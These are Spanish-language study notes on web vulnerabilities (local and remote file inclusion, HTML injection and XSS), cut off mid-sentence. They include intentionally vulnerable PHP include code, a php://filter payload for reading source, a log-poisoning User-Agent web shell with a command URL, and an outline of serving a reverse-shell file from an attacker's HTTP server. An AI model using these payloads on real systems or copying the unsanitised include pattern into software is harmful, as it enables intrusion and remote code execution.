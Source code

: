 #### Vulnerabilidades

### Local File Inclusion // Inclusion de Archivos Local

Vulnerabilidad que permite a un atacante poder acceder a archivos locales de la raiz del servidor o dispositivo

##  Ejemplo 1: LFI directo (`/etc/passwd`)

```php
<?php
// vulnerable.php
if (isset($_GET['page'])) {
    include($_GET['page']);
} else {
    echo "No page specified.";
}

```
## Ejemplo 2: LFI con path traversal (../../../../../etc/passwd)
```php
<?php
// vulnerable.php
$page = $_GET['page'] ?? 'default.php';
include("pages/" . $page);
```

como ver codigo fuente sin ejecutar ?page=php://filter/convert.base64-encode/resource=index.php

como pasar de lfi a rce con log poisoning
hacia /var/log/apache2/access.log
se puede ejecutar codigo enviando cabeceras como <?php echo "buenas"; ?> ya sea del referer, user agent, etc.
entonces si inyectas User-Agent: <?php system($_GET["cmd"]); ?>
puedes ejecutar codigo de esta manera http://victima.com/index.php?page=/var/log/apache2/access.log&cmd=id
 Requisitos para que funcione

    Que el servidor use LFI sin sanitizar (include($_GET["page"]))

    Que los logs no estén protegidos (no haya open_basedir, disable_functions, etc.)

    Que PHP esté mal configurado y no restrinja la ejecución de archivos externos

    Que los logs se escriban en texto plano y no estén rotados o comprimidos

### Remote File Inclusion

Es bajar un archivo desde un servidor donde esta la maquina del atacante un ejemplo seria wordpress con gwole 
haces un archivo malicioso .php para sacar una reverse shell 
puedes hacer un servidor http desde python -m http.server [puerto] 
y con eso ya dependiendo como sea el exploit pasar tu archivo mediante tu http server

### HTML Injection y  XSS (cross-site scripting)

Este consiste de poder inyectar codigo html como <h1>Buenas</h1> y si sale grande buenas entonces se puede hacer un html Injection o de otra maneta 
